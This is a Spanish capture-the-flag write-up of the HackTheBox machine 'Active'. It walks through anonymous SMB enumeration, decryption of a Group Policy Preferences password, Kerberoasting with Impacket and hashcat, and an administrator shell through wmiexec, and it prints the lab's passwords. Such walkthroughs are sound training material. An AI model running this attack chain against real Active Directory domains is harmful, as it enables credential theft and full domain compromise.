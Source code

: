# Active

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.129.219.179

---

## 1. Información Inicial
- **Objetivo:** Obtener las dos banderas de usuario y root.  
- **Herramientas iniciales:** `nmap`, `smbclient`, `smbmap`, `gpp-decrypt`, `hashcat`, `GetUserSPN`, `wmiexec`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV --min-rate 5000 10.129.219.179
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Tras el escaneo notamos rápidamente que se trata de un Active Directory, por lo que la primera idea que se nos viene a la cabeza es comprobar el acceso anónimo a SMB.
Usaremos la herramienta `smbclient` para esto:
```bash 
smbclient -L //10.129.219.179
```
![Comprobación de acceso anónimo a servicio SMB](screenshots/3.smbclient_anonimo.png)

Debido a que no hemos tenido problemas y nos muestra algunos directorios compartidos que pueden sernos útiles, vamos a mirar los permisos de cada uno.
```bash 
smbmap -H 10.129.219.179
```

![Comprobación de permisos de directorios compartidos por SMB](screenshots/4.smbmap_permisos.png)

El directorio Replication es el único que nos ha permitido acceder a él, y podemos encontrar dentro de él un directorio llamado active.htb, el cuál vamos a descargar recursivamente para poder analizarlo más detenidamente en nuestra máquina local.

```bash 
smbclient //10.129.219.179/Replication
RECURSE ON 
PROMPT OFF
mget *
```

![Entrada en directorio Replication y descarga recursiva del contenido de active.htb](screenshots/5.descarga_recursiva.png)

Tras observar detenidamente cada uno de los archivos, detectamos unas credenciales en el fichero active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml. El nombre del usuario son SVC_TGS y la contraseña está hasheada.


![Fichero que contiene las credenciales de un usuario con la contraseña hasheada](screenshots/6.inspeccion_archivos.png)

Por el tipo de hash y teniendo en cuenta de que se trata un Active Directory, lo más común es que se trate de una clave para GPP. Microsoft publicó la clave en 2014 y avisó a los administradores de servidores de que ya no eran seguras, por lo que tenemos herramientas para poder desencriptarla.

```bash 
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![Desencriptado del hash de la contraseña encontrada](screenshots/7.desencriptar_gpp.png)

El resultado de las credenciales finales es: `SVC_TGS:GPPstillStandingStrong2k18`.

Con estas credenciales podemos comprobar los permisos de SMB, por si nos permitieran acceder a otro recurso diferente.

```bash 
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.219.179
```

![Comprobación de permisos con nuevo usuario en smbmap](screenshots/8.enumeracion_autenticado.png)

Tratamos de acceder a los nuevos recursos disponibles, pero principalmente destaca el recursos Users. En este accedemos a Desktop y encontramos la primera bandera (user.txt).

```bash 
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.129.219.179/Users
```

![Usando smbclient para acceder al recurso Users y encontrar la primera bandera](screenshots/9.acceso_users_smbclient.png)

Ahora vamos a tratar de escalar privilegios. Tras intentar acceder y obtener información de varios métodos, se nos vino a la cabeza el ataque Kerberoasting, donde cualquier usuario autenticado del dominio puede solicitar un ticket (TGS) para buscar si algún usuario tiene un SPN.

Utilizaremos el usuario que ya tenemos para autenticarnos por medio de la herramienta GetUserSPNs.py de Impacket.

```bash 
GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 --request
```

![Usando GetUserSPN para obtener el SPN de administrador por medio de un ticket TGS](screenshots/12.solicitud_tgs.png)

Una vez obtenido el hash de la contraseña de administrador, vamos a usar hashcat ya que tiene una opción para crackearlo. Vamos a guardar el hash en un fichero con ese mismo nombre, y luego usaremos el siguiente comando: 

```bash 
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force --profile-disable
```                                  

![Uso de hashcat para crackear la contraseña del administrador con el diccionario rockyou](screenshots/13.crackeando_hash_tgs.png)

La contraseña resultante sería `Ticketmaster1968`
Ya que estamos usando la herramienta Impacket, una herramienta que nos proporciona para abrir una shell con el usuario administrador y poder obtener la bandera de root es `wmiexec.py`.

```bash 
wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.219.179
```                                  

![Obtención de shell con wmiexec utilizando las credenciales de administrador](screenshots/14.wmiexec.png)
